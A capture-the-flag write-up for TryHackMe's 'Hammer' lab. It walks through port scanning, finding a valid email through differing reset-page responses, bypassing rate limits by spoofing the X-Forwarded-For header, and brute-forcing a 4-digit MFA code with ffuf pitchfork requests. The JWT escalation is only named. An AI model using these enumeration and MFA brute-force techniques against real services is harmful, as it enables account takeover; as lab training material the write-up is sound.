## Introduction
------------------------------------------------------------------------------------------
[hammer](https://tryhackme.com/r/room/hammer) is a medium-rated Linux box from TryHackMe. The exploitation starts by abusing the password reset functionality to enumerate valid email addresses. From there, we brute-force the MFA code, which gives us the ability to reset the target user's password. Once logged in, we abuse the JWT to escalate our privileges to admin within the application, unlocking full access to the command execution feature.

------------------------------------------------------------------------------------------

## Enumeration
We start with a full scan to discover all open TCP ports.
### All Open Ports
```bash
rustscan -a 10.10.179.102
```


### Services Scanning
```bash
nmap -p22,1337 -sC -sV -oN hammer.full 10.10.179.102
```
```text
# Nmap 7.94SVN scan initiated Wed Dec 11 08:14:28 2024 as: nmap -p22,1337 -sC -sV -v -oN hammer.full 10.10.179.102
Nmap scan report for hammer.thm (10.10.179.102)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0a:6d:ab:ce:54:aa:96:47:b4:6e:d8:56:38:a7:ae:b6 (RSA)
|   256 bd:2a:f1:09:dd:e1:d3:2a:5b:20:f1:52:4e:d5:39:5a (ECDSA)
|_  256 f0:ec:2f:c0:d6:35:68:0e:8e:53:b3:49:7c:a4:0e:fa (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/.../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 11 08:14:43 2024 -- 1 IP address (1 host up) scanned in 15.06 seconds
```
### Hostname
```bash
echo '10.10.179.102   hammer.thm' >> /etc/hosts
```

## FootHold
### Port 1337

```bash
ffuf -c -u http://hammer.thm:1337/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php , .txt
```


The application uses the php-jwt library. I searched for known vulnerabilities against this library but found nothing directly exploitable here.

The dev note reveals a naming convention (`/hmr_DIRNAME`) that gives us a useful pattern to fuzz for hidden directories.
```bash
ffuf -c -u http://hammer.thm:1337/hmr_FUZZ -w /usr/share/wordlists/dirb/common.txt 
```



The logs expose a failed authentication attempt: `tester@hammer.thm` tried to access a restricted area with the wrong password. That gives us a valid username to work with.
```
tester@hammer.thm
```


Notice the "Invalid email address!" error on the reset password page — this response difference is exactly what makes email enumeration possible. The application is leaking information by responding differently depending on whether the email exists or not.

Let's confirm by submitting the email we found in the logs.

Entering `tester@hammer.thm` on the reset password page produces a different response, confirming it is a valid account in the system.

It is also worth noting that we could fuzz for other valid emails using this same difference in responses. Let's try that.


There is rate limiting in place — but that is not going to stop us. The first question to ask is: what does the server actually track to count our attempts? After some testing, it turns out the server is tracking the unauthenticated session cookie.

Once we remove the `Cookie` header from the request, the `Rate-Limit-Pending` header in the response always resets to 9. This means the server has no reliable way to track us without a session, giving us a wide-open window to fuzz freely.
```text
POST /reset_password.php HTTP/1.1
Host: hammer.thm:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://hammer.thm:1337/reset_password.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://hammer.thm:1337
Connection: keep-alive
Upgrade-Insecure-Requests: 1

email=FUZZ@hammer.thm
```
```bash
ffuf -c -request reset_pass.req -request-proto http -w usernames.txt -fs 1754
```

The fuzzer confirms `tester@hammer.thm` again. Either way, we now have a valid target email and two possible paths forward:

- Brute-force `tester@hammer.thm`'s password on the login page
- Attack the MFA flow to reset the password directly


Looking at the MFA page, a few things stand out:
- There is rate limiting on code submissions.
- There is a countdown timer — the user has 175 seconds to enter a valid MFA code.
- If the countdown reaches 0, the server redirects to a "Time elapsed" error page.

Unlike the email enumeration step, we cannot simply drop the session cookie here. Without it, the server immediately redirects us to the same "Time elapsed" error page.


The key insight is: if we can find a request parameter that tricks the server into thinking each request comes from a different source, we can bypass the rate limit and brute-force the 4-digit MFA code within the 120-second window.

After researching "Rate Limit Bypass" techniques, one common approach stands out.

The `X-Forwarded-For` header works here. Each time we change the IP value in this header, the server grants us a fresh batch of 10 requests. To brute-force a 4-digit code (up to 9000 attempts), we need up to 900 unique IPs.

The loopback range `127.0.0.0/8` gives us more than enough addresses.


```bash
echo '0000' > w.txt
seq 1000 9999 >> w.txt
```
We need 1000 IPs from the loopback range. A bit of subnet math helps here: we need 2^10 = 1024 addresses, so a `/22` subnet (32 − 10 = 22) gives us exactly that.
```bash
prips 127.0.0.0/22 > ip.txt
awk '{for(i=1; i<=9; i++) print $0}' ip.txt > wordlist.txt
```
We then use a Pitchfork attack in ffuf, pairing each MFA code with a different IP address to stay under the rate limit:
- Copy the `PHPSESSID` from your browser and paste it into `mfa_brute.req`
- Submit the target email on the reset page to start the MFA timer
- Launch the Pitchfork attack before the timer runs out



```text
POST /reset_password.php HTTP/1.1
Host: hammer.thm:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: FUZZIPS
Content-Length: 24
Origin: http://hammer.thm:1337
Connection: keep-alive
Referer: http://hammer.thm:1337/reset_password.php
Cookie: PHPSESSID=vf6ddidso59n9qahc89usq2vp9
Upgrade-Insecure-Requests: 1

recovery_code=FUZZCODE&s=120
```



```bash
ffuf -c -mode pitchfork -request mfa_brute.req -request-proto http -w wordlist.txt:FUZZIPS -w w.txt:FUZZCODE -fs 2202
```

The valid code is the first one that does not match our response size filter — everything else is a rejection page of the same size.

Using that code brings us to a page where we can set a new password.

After setting a new password, we can log in as `tester@hammer.thm`.


As expected, there is command filtering in place and we cannot read `flag.txt` directly. Testing reveals that only `ls` appears to be allowed — other commands like `cat` and `id` are blocked.

## Privilege Escalation
```bash
curl http://hammer.thm:1337/188ade1.key
curl http://hammer.thm:1337/composer.json
```


## Kill Chain Summary
1. Email enumeration through the reset password functionality.
2. MFA code brute-forcing to reset the `tester@hammer.thm` password.
3. JWT attack to gain admin access within the application.

## References
[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)<br>
[hacker recipes jwt attack](https://www.thehacker.recipes/web/inputs/jwt)<br>
[jwt auth bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)<br>
